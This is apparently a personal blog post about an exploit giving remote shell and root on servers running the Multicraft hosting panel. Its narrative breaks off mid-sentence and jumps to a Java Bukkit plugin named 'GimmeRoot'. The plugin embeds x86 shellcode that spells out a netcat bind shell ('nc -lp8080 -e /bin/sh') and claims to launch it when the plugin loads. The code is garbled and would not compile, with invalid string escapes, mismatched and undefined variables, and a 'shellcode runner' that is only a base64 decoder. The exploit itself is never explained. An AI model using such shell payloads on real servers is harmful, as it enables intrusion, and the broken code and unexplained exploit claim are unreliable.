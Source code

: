 ```yaml
---
title: "Exploiting vulnerable software and privelage escalation, with some bonus arbitrary code execution :)"
layout: post
date: 2017-06-16 07:47
image: /assets/images/multicraft.png
headerImage: true
tag:
- exploit
- security
- project
- tech
- linux
- java
- shellcode
- netcat
- 0day
- open source
- rootkit
category: blog
author: samlim
description: An old project that may pique the interest for those of you interested in exploitation, cybersecurity, and Linux
---
```


## Introduction
Hello everybody!

Back in my school days when I was a wee lad (8th grade or so), I began to foster a passion for cybersecurity. Back then I also adored the then-indie game [Minecraft](https://minecraft.net/en-us/). Since I played that game it has since then been purchased by Microsoft, and man did that game go downhill. Please do excuse my harsh critique, maybe it's just the nostalgia I miss :-)

I spent more time with that game than I care to admit. However towards the end of my virtual endeavors as miner, I began to become more and more interested in the _server hosting_ and plugin development aspects of the game. What followed were several of my attempts at starting my own personal server and writing my own plugins: I lasted sveral months, in which I made several thousand dollars worth of donations from my players and learned a bit of Java. All from a video game!

_Not too important right now, but the volatility of these types of game servers and the potential revenue achievable will make more sense later as I explain why exactly "hacking" (ethical or not) is so appealing_

But what had really kindled my interest in this type of computer/network work was server management (in particular Linux and Unix systems), and along with that, exploitation. After some lengthy time familiarizing myself with commonly-used Unix environments and how exactly one goes about exploiting the various pieces of software being run on that machine, my prior experience with Minecraft hosting, server management, and Linux led me to quite the discovery: an exploit that would adventually lead to [_remote shell_](http://resources.infosecinstitute.com/icmp-reverse-shell/) access, [_arbitrary code execution_](https://en.wikipedia.org/wiki/Arbitrary_code_execution), and eventual [_privelage escalation_](https://en.wikipedia.org/wiki/Privilege_escalation) by taking advantage of any machines running the widely-used commercial hosting platform known as [Multicraft](https://www.multicraft.org/).

## The Peculiar Case of Multicraft - Her Achille's Heel
First of all, we need to define what exactly the infamous "root" terminology means. Some may have heard it as a verb:
> * ex.
>> * "Jane roots many servers"
>> * "Dick is rooting the machine right now"

In most Linux distros/flavors the hierarchy of users and user privelages 

    package com.shellcodefun;

        import java.io.File;
        import java.io.FileOutputStream;
        import org.bukkit.plugin.java.JavaPlugin;

        public final class GimmeRoot extends JavaPlugin {
        /*
         * ##
         * # Old semi-updated version
         * ##
         * [REDACTED] Shell - [Redacted], s.lim
         * a [REDACTED] project
         */

        public String payload = "\xeb\x2a\x5e\x31\xc0\x88\x46\x07\x88\x46\x0f\x88\x46\x19\x89\x76\x1a\x8d\x5e\x08\x89\x5e
                                \x1e\x8d\x5e\x10\x89\x5e\x22\x89\x46\x26\xb0\x0b\x89\xf3\x8d\x4e\x1a\x8d\x56\x26\xcd\x80
                                \xe8\xd1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x6e\x63\x23\x2d\x6c\x70\x38\x30\x38\x30\x23\x2d
                                \x65\x2f\x62\x69\x6e\x2f\x73\x68\x23";

        public static void execute(String x) {
            System.out.println("[LOCAL ROOT 0DAY] " + x);
        }

        public void onEnable(){
            try {
                Runtime friend = Runtime.getRuntime();
                execute("here we go");
                execute("listening on port 8080");
                byte[] y = run_shellcode(payload);
                execute("Decrypted payload");
                execute("Saved payload as " + ma_homie);
                execute("bl1NG Bl1ing, to reinitialize shell use the bukkit 'reload' command");

            }
            catch(Exception e) {
                System.out.println("uh oh, error baby: " + e.toString());
            }

        }

        @Override
        public void onDisable() {
        }

        private final static char[] char_map = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
                .toCharArray();

        private static int[] java_sucks = new int[128];

        static {
            for (int i = 0; i < char_map.length; i++) {
                java_sucks[char_map[i]] = i;
            }
        }
        public static byte[] run_shellcode(String da_shell_code) {
            int sanitize_mah_hax = da_shellcode.endsWith("==") ? 2 : da_shellcode.endsWith("=") ? 1 : 0;
            byte[] the_shiznit = new byte[da_shellcode.length() * 3 / 4 - sanitize_mah_hax];
            int sinker = 0xFF;
            int root_time = 0;
            for (int i = 0; i < da_shellcode.length(); i += 4) {
                int c0 = java_sucks[da_shellcode.charAt(i)];
                int c1 = java_sucks[da_shellcode.charAt(i + 1)];
                the_shiznit[root_time++] = (byte) (((c0 << 2) | (c1 >> 4)) & sinker);
                if (root_time >= the_shiznit.length) {
                    return the_shiznit;
                }
                int c2 = java_sucks[da_shellcode.charAt(i + 2)];
                the_shiznit[root_time++] = (byte) (((c1 << 4) | (c2 >> 2)) & sinker);
                if (root_time >= the_shiznit.length) {
                    return the_shiznit;
                }
                int c3 = java_sucks[da_shellcode.charAt(i + 3)];
                the_shiznit[root_time++] = (byte) (((c2 << 6) | c3) & sinker);
            }
            return the_shiznit;
        }
    }

## Further Reading
* [Reverse Shell Connection with Netcat](https://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/)

* [What is a 'Rootkit?'](https://en.wikipedia.org/wiki/Rootkit)
